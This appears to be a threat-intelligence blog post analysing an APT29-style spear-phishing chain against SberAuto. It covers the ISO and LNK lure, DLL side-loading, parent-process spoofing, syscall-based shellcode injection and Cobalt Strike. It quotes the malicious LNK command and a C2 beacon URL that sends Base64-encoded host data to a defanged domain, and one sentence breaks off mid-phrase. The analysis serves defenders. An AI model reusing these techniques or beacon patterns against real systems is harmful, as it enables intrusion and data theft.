 +++
date = "2023-01-01"
title = "The curious case of SberAuto spear-phishing campaign"
slug = "the-curious-case-of-sberauto-spear-phishing-campaign"
+++



### Summary
On December 19, 2022 malware researcher known as **StopMalvertisin** twitted about a possible APT29 attack.

![Alt text](image-0.png)

The spear-phishing campaign targeted **SberAuto**, a Russian online car trading platform associated with the state-owned banking and financial services company **Sberbank**.  
The analyzed attack displayed similar **TTPs** commonly attributed to **APT29** (aka **Cozy Bear**), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.


## Technical Analysis
### Initial Stage
The first stage of this attack is represented by an **ISO** file (0b32bd907072d95223e5eb2dc5e3d9e0) named "Алкоголь_2023_zip.iso" (i.e., "Alcohol"), uploaded on VirusTotal from Russia on December 19, 2022 and potentially delivered as an email attachment.

![Alt text](image-1.png) 

The archive content closely resembles the one of previous APT29 campaigns.   

![Alt text](image-2.png)


The only folder visible item is a shortcut file disguised as "Алкоголь_2023.pdf". 

```cmd
%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf
```

Once clicked on the **LNK** file, **update.exe** is firstly executed, followed by the lure PDF document called "alcohol.pdf", which displays the alcohol catalog from the Russian market chain called **Globus Gourmet**.   

![Alt text](image-3.png)

The files "thumbcache.dll" and "update.exe" are actually two legit *signed binaries* of **Microsoft OneDrive**: the latter exploits Windows **search order hijacking** to load the malicious DLL named "version.dll," which has been modified by the threat actor to load an encrypted payload file.

![Alt text](image-4.png)


### Second stage: version.dll
The dynamic-linked library "version.dll" is a 64-bit DLL which is side-loaded by the legit Microsoft OneDrive binary.  
The *compile-timestamp* shows **Sunday, December 18 2022**. 

![Alt text](image-5.png)

The binary first employs ```GetComputerNameExA``` API function to retrieve the hostname of the infected machine and check whether it is equal to ```corp.sberauto[.]com```, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

![Alt text](image-7.png)

After that, the malicious DLL iterates through the running processes using ```Process32Next``` to find the ID of **explorer.exe** and obtain its process handle.

![Alt text](image-8.png)

It then creates a *suspended-process* called **RuntimeBroker.exe** using ```CreateProcessA``` and sets "explorer.exe" as the parent process via ```UpdateProcThreadAttribute``` API.

The attribute parameter with the value 0x20007 corresponds to the definition of **PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY**, while the value ```0x100000000000``` corresponds to **PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON**: it is typical for **CobaltStrike** to use CreateProcess API call along with a **STARTUPINFOEX** structure containing this mitigation policy to block DLLs that are not signed by Microsoft.

![Alt text](image-9.png)


Finally, the DLL decrypts the shellcode into "RuntimeBroker.exe" through ```NtAllocateVirtualMemory``` and ```NtWriteVirtualMemory```, sets it to an executable **APC routine** and run it via the ```NtAlertResumeThread```.
All this function API calls are done directly via **syscall** to hinder analysis. 

![Alt text](image-10.png)

The presence of specific debug strings shows that the program was created with **Shhhloader** framework, a "shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR".  

![Alt text](image-11.png)


### Final stage: Cobalt Strike
The shellcode 



  that, after obtaining the relevant information about the victim machine such as *username*, *computer name* and *computer version*, sends them to the **C2** ```adblockext[.]ru``` domain via  **Base64-encoded** scheme. 


```
https://adblockext[.]ru/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN?_=BASE64_ENCODED_DATA
```


## Conclusion
The similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may lead to a couple of final hypotheses.  
First, the attacks may be either orchestrated by Ukrainian groups (particularly, the "The IT Army of Ukraine") trying to simulate Cozy Bear TTPs.  
Alternately, this could be also a Russian red teaming exercise to enhance internal cybersecurity measures.































